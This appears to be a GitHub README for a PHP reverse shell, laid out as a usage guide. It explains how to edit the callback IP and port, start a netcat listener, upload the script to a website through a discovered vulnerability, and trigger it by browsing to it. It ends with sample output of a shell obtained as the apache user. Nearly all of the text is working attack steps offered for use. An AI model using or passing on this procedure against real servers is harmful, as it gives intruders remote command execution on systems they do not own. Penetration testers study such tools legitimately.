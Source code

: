 # PHP Reverse Shell Payload
A PHP Reverse_shell Payload - use it at your own risk!

- Guide :
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

$ip = '127.0.0.1';  // CHANGE THIS

$port = 1234;       // CHANGE THIS

Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

$ nc -v -n -l -p 1234

Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

http://somesite/php-reverse-shell.php

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:

$ nc -v -n -l -p 1234

listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012

Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10                                                                                                
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
